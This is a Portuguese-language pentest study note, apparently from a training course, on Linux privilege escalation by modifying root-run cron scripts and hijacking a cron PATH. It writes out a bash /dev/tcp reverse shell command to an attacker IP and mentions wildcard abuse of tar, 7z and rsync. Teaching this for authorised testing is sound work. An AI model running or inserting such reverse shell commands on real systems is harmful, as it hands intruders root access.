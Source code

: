 Os Cron Jobs são usados para executar scripts ou binários em horários específicos. Por padrão, eles são executados com o privilégio de seus proprietários e não do usuário atual. Embora os cron jobs configurados corretamente não sejam inerentemente vulneráveis, eles podem fornecer um vetor de escalonamento de privilégios em algumas condições.

A ideia é bem simples: ==se houver uma tarefa agendada que seja executada com privilégios de root e pudermos alterar o script que será executado, então nosso script será executado com privilégios de root.==

![[Pasted image 20231220211609.png]]

Você pode ver que o script backup.sh foi configurado para ser executado a cada minuto. O conteúdo do arquivo mostra um script simples que cria um backup do arquivo prices.xls.

![[Pasted image 20231220211629.png]]

Como o nosso usuário atual pode acessar esse script, podemos modificá-lo facilmente para criar um shell reverso, com privilégios de root.

O script usará as ferramentas disponíveis no sistema de destino para iniciar um shell reverso.
Dois pontos a serem observados;

1. Sintaxe do comando varia de acordo com as ferramentas disponíveis. (por exemplo, o nc provavelmente não suportará a opção -e que você pode ter visto ser usada em outros casos)
2. Sempre devemos preferir iniciar shells reversos, pois não queremos comprometer a integridade do sistema durante um compromisso real de teste de penetração.

O arquivo deve ter a seguinte aparência;

![[Pasted image 20231220211700.png]]

```shell
#!/bin/bash

bash -i >& /dev/tcp/10.2.2.15/6666 0>&1
```

Agora, executaremos um listener em nossa máquina de ataque para receber a conexão de entrada.

![[Pasted image 20231220211714.png]]

Sempre vale a pena verificar o Crontab, pois às vezes ele pode levar a vetores fáceis de escalonamento de privilégios. O cenário a seguir não é incomum em empresas que não têm um determinado nível de maturidade de segurança cibernética:

1. Os administradores de sistema precisam executar um script em intervalos regulares.
2. Eles criam um trabalho cron para fazer isso
3. Depois de algum tempo, o script se torna inútil e eles o excluem
4. Eles não limpam o trabalho cron relevante

Esse problema de gerenciamento de alterações leva a uma possível exploração que aproveita os trabalhos do cron.

![[Pasted image 20231220211753.png]]

O exemplo acima mostra uma situação semelhante em que o script antivírus.sh foi excluído, mas o trabalho do cron ainda existe.
Se o caminho completo do script não for definido (como foi feito para o script backup.sh), o cron fará referência aos caminhos listados na variável PATH no arquivo /etc/crontab. Nesse caso, devemos ser capazes de criar um script chamado "antivirus.sh" na pasta home do nosso usuário e ele deve ser executado pelo trabalho do cron.

O arquivo no sistema de destino deve ter uma aparência familiar:

![[Pasted image 20231220211812.png]]

A conexão de entrada do reverse shell tem privilégios de root:

![[Pasted image 20231220211828.png]]

Na eventualidade de encontrar um script ou tarefa existente anexado a um trabalho cron, sempre vale a pena dedicar algum tempo para entender a função do script e como qualquer ferramenta é usada dentro do contexto. Por exemplo, tar, 7z, rsync, etc., podem ser explorados usando seu recurso curinga.

